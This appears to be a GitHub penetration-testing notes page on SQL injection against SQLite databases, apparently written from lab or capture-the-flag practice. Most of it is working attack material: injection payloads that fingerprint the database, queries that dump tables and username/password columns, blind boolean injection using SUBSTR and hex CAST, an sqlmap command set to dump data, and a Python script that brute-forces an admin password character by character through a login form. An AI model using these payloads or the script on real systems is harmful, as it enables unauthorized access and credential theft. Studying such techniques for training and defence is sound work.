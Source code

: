 # Quaries for Dump from SQLlite Database


********** 

### With this knowledge, we can try to identify what database is in use. There are a few ways to do this, but the easiest way is to ask the database to identify itself. The following queries can be used to identify MySQL, MSSQL, Oracle, and SQLite:

```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```



**The ```group_concat()``` function is used to dump all the tables simultaneously.**

```
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/45abaf5b-2f09-411c-876b-f6b211421ab6)



We can then continue by ```extract all the column names``` from the usertable:

```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ae87ab7b-1b19-4f2c-a3a5-c59b5d2be6b7)



### By knowing the names of the columns, we can extract the data we want from the database. 


```
SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/dc5e3631-23bb-4ca6-b603-d0cf6fbccfc1)





***********
************
********

# Broken Authentication (Blind Injection)

The first argument to [substr](https://sqlite.org/lang_corefunc.html#substr) is the string itself, which will be the admin's password. The second argument is the starting position, and the third argument is the length of the substring that will be returned.

```SUBSTR( string, <start>, <length>)```

Below is an example of substr in action - the character after the equal (=) sign demonstrates the substring returned.

```
-- Changing start
SUBSTR("THM{Blind}", 1,1) = T
SUBSTR("THM{Blind}", 2,1) = H
SUBSTR("THM{Blind}", 3,1) = M

-- Changing length
SUBSTR("THM{Blind}", 1,3) = THM
```

The next step will be to enter the admin's password as a string into the substr function. This can be achieved with the following query:

```
(SELECT password FROM users LIMIT 0,1)
```

The [LIMIT](https://sqlite.org/lang_select.html#limitoffset) clause is used to limit the amount of data returned by the SELECT statement. The first number, 0, is the offset and the second integer is the limit:

```
LIMIT <OFFSET>, <LIMIT>
```

Below are a few examples of the LIMIT clause in action. The right table represents the user table.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/7efc3492-f772-4025-b15b-873e72148d52)

```
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)
```

```
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'
```

However, whether this approach works or not will be depending on how the application handles the inputs. The application will convert the username to lowercase for this challenge, which breaks the mentioned approach since capital T is not the same as lowercase t. The hex representation of ASCII T is 0x54 and 0x74 for lowercase t. To deal with this, we can input our character as hex representation via the substitution type X and then use SQLite's CAST expression to convert the value to the datatype the database expects.

"x,X: The argument is an integer which is displayed in hexadecimal. Lower-case hexadecimal is used for %x and upper-case is used for %X" - (sqlite.org)

This means that we can input T as ```X'54'```. To convert the value to SQLite's Text type, we can use the CAST expression as follows: CAST(X'54' as Text). Our final query now looks as follows:

```
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
```

Payload:

```
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
```


note that it will be necessary to change the password length with the password_len variable. The length of the password can be found by asking the database. For example, in the query below, we ask the database if the length of the password equals 37:

```
admin' AND length((SELECT password from users where username='admin'))==37-- -
```


### We can using automation tool for this task like sqlmap:

```
sqlmap -u link --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```

### Code python for automation blind Injection:

```
#!/usr/bin/python3
import sys
import requests
import string


def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text


def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])
```












